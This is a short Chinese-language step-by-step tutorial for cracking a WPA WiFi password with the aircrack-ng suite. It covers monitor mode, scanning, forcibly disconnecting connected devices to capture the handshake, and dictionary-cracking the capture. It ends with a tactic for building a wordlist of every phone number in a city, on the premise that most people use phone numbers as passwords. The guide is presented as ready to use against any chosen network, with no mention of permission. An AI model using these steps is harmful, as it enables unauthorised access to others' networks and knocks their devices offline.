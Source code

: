 #### 0.首先需要全程**root权限**，或者每个命令加**sudo**

#### 1.查看网卡是否支持监控模式

​	执行：【**airmon-ng**】，结果中有wlan0(也有可能是其他的)即代表支持监控模式

#### 2.开启无线网卡监控模式

​	【**airmon-ng start wlan0**】

> ​	如果报错了就看看有没有进程占用 执行 **airmon-ng check kill** 可以杀掉无关的进程

#### 3.查看wifi网络

​	【**airodump-ng wlan0mon**】

> 命令执行后会把周围的无线网络按照信号强度由上到下排列到一个列表，当列表中出现你想要破解的wifi网络后，按**CTRL+C**停止。

#### 4.显示出当前连接该WiFi的所有设备

​	【airodump-ng -c {信道} --bssid {路由器BSSID} -w [握手包存放路径] wlan0mon】

> 本方法最大的弊端是必须要有无线设备连接到这个WiFi才能破解

#### 5.强制设备下线并抓包

​	上一步的终端窗口别动，新开一个窗口输入

​	【aireplay-ng -0 2 -a {路由器BSSID} -c {设备MAC} wlan0mon】

> 这段代码的意思是攻击连在这个WiFi上的该设备2次 如果你省略了-c以及后面的Mac地址，那意思就是攻击该WiFi上的所有设备(有线连接除外) 括号里面的两个参数全部复制就可以了。

> 一般的智能终端，掉线之后都会重连的。在他重连的时候，我们就抓到了正确密码密码的包。因为这个包全部都是加密的，不是明文的，我们接下来就需要破解它的加密。

抓到包后 终端的右上角会多出一个**xxxx found** 这时候就可以ctrl＋C停止抓包了

#### 6.关闭无线网卡监控模式(此时WiFi才可以正常使用)

​	【airmon-ng stop wlan0mon】

#### 7.跑字典

​	aircrack-ng -a2 -b [路由器BSSID] -w [字典目录.txt] [握手包目录.cap]



> 绝大多数人都使用手机号作为密码，所以只需要生成一个地区手机号字典即可。
>
> 该网站https://www.chahaoba.com/城市可以查看城市的所有号段
>
> ​	只需要前七位就可以，然后使用python写一个从前七位后面自动加0000到9999的小程序即可
>
> ​	并输出到txt文件，就获得了某个特定城市的全部的手机号可能，再去跑字典成功率就会很高了